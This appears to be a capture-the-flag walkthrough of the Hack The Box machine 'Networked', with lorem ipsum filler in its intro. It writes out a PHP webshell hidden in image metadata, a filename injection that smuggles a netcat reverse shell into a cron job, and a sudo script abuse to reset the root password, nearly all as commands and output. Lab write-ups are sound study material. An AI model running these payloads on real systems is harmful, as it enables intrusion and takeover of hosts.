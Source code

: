 ```yaml
---
title: Networked - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-20
image: images/networked_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/networked_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV -O 10.10.10.146
   Open ports: 22, 80, 443

2. dirb http://10.10.10.146
   Detects /backup/ download .tar and extract the .php-files

3. Upload a file http://10.10.10.146/upload.php
   Upload.php shows;
   - the uploaded file will change name (ip_address.png ex. 10_10_14_28.png)
   - must be .jpg, .jpeg, .png or .gif
   - size must be smaller than 60000 byte
   - successful upload will be moved to /var/www/html/uploads/ (http://10.10.10.146/uploads/10_10_14_28.png)

   Lib.php shows:
   - mime type will be double checked to pervent mime-switching through burp

   Create a webshell using exiftoool:
   exiftool -DocumentName="<h1>Player Three Has Entered The Game<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.png
   Rename the file to .php.png to force php execution: mv image.png webshell.php.png

4. Enum box through webshell
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=whoami   (apache)
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=ls%20-al%20/home/guly/

   total 28
   drwxr-xr-x. 2 guly guly 159 Jul  9 13:40 .
   drwxr-xr-x. 3 root root  18 Jul  2 13:27 ..
   lrwxrwxrwx. 1 root root   9 Jul  2 13:35 .bash_history -> /dev/null
   -rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
   -rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
   -rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
   -rw-------  1 guly guly 639 Jul  9 13:40 .viminfo
   -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
   -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
   -r--------. 1 guly guly  33 Oct 30  2018 user.txt

   We don't have priv to read user.txt yet, need to escalate.

5. Exploiting check_attack.php
   check_attack.php has a cronjob that will remove new files from /var/www/html/uploads, using the syntax "rm -f /var/www/html/uploads/".
   Exploit this by creating reverse bash shell starting the name with ;
   (touch /var/www/html/uploads/";nc -e /bin/sh 10.10.14.15 4488")
   http://10.10.10.146/uploads/10_10_14_15.php.png?cmd=touch%20/var/www/html/uploads/%22;nc%20-e%20/bin/sh%2010.10.14.15%204488%22

6. Start netcat and wait for the cronjob to trigger your reverse shell
   root@p3:/opt/htb/machines/networked# nc -lnvp 4488
   listening on [any] 4488 ...
   connect to [10.10.14.15] from (UNKNOWN) [10.10.10.146] 36284

   ls
   check_attack.php
   crontab.guly
   user.txt

   whoami
   guly

   cat user.txt
   526****************

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Upgrade rev shell (tty0) to a better one for ease of use and better information.
    python -c 'import pty;pty.spawn("/bin/bash")'
    ctrl + z
    stty raw -echo
    fg
    <ENTER>
    <ENTER>
    export TERM=xterm

2. Download lse.sh to the victim and scan for vulns. wget is unable so we use curl instead
    root@p3:/opt/scanners/linux# python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

    [guly@networked shm]$ curl http://10.10.14.15:8080/lse.sh --output lse.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 31737  100 31737    0     0   292k      0 --:--:-- --:--:-- --:--:--  295k
    [guly@networked shm]$ ls -al
    total 32
    drwxrwxrwt  2 root root    60 Sep 20 14:54 .
    drwxr-xr-x 20 root root  3200 Sep 19 21:01 ..
    -rw-rw-r--  1 guly guly 31737 Sep 20 14:54 lse.sh

3. Give +x and scan the system
    chmod +x lse.sh
    ./lse.sh -l1

4. The script changename.sh is executable by gully and has root privs.
    User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

5. Looking in the script, we can see that it only accepts input according to the regexp:
    regexp="^[a-zA-Z0-9_\ /-]+$"

      Looking at the regexp we are only allowed to input a-z, 0-9, "-" and " ".
      Use https://regex101.com/ to test acceptable inputs

6. Run the script and change the root password.
    [guly@networked sbin]$ sudo ./changename.sh
    interface NAME:
    sudo passwd
    interface PROXY_METHOD:
    asd
    interface BROWSER_ONLY:
    asd
    interface BOOTPROTO:
    asd
    Changing password for user root.
    New password:
    Retype new password:
    passwd: all authentication tokens updated successfully.
    Changing password for user root.

    [guly@networked sbin]$ su
    Password:

    [root@networked sbin]# whoami
    root

    [root@networked sbin]# cat /root/root.txt
    0a8*****************************
